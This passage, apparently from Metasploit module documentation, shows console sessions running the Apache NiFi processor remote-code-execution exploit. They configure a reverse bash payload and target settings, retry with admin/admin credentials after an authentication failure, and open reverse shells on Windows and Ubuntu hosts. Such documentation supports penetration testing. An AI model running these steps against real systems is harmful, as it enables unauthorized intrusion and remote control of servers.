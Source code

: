 ```
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.140:50008) at 2020-10-03 13:17:58 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/windows  Microsoft Windows [Version 10.0.18363.1082] (c) 2019 Microsoft Corporation. A...  192.168.194.131:4444 -> 192.168.194.140:50008 (192.168.194.140)
```

### Ubuntu Server 20.04.1 (authentication required)

It can be seen that it fails the first time because authentication is required, but succeeds after credentials are set.

```
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rport 9443
rport => 9443
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 127.0.0.1:9443 - The service is running, but could not be validated.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[-] Exploit aborted due to failure: bad-config: Authentication is required. Bearer-Token or Username and Password must be specified
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/apache_nifi_processor_rce) > set username admin
username => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > set password admin
password => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:50802) at 2020-10-03 13:18:00 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/unix                                                                                       192.168.194.131:4444 -> 192.168.194.130:50802 (127.0.0.1)
```

